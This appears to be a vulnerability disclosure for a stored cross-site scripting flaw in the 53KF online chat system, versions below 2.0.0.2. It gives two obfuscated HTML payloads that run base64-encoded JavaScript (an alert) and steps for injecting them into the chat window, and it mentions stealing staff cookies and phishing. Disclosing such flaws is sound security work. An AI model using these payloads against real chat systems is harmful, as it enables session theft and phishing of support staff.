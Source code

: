 ## 53KF_vuln_xss

When using the 53KF online chat system, it is found that the inserted HTML statements can be successfully executed, and the alarm window and JS script can be executed successfully, thus stealing customer service staff cookies or fishing operations.

## description ：

Cross Site Scripting (XSS) vulnerability in 53KF online chat system product, Affecting versions < 2.0.0.2 . The vulnerabilities could be remotely exploited resulting in Cross-Site Scripting (XSS) or information disclosure.

Exploit Title: There is a stored Cross Site Scripting in 53KF

Date: 2020/10/27

Exploit Author: panzhenhua

Vendor Homepage: http://www.53kf.me/

Version: < 2.0.0.2

Tested on: macOS

## POC:
```
1、<input type=text autofocus onfocus=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))//

2、<details open ontoggle=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))>
```

## verification：
Open 53 online customer service chat window to inject POC

![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/2.png)

Close the chat window and open it again. The attack is successful

![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/1.png)
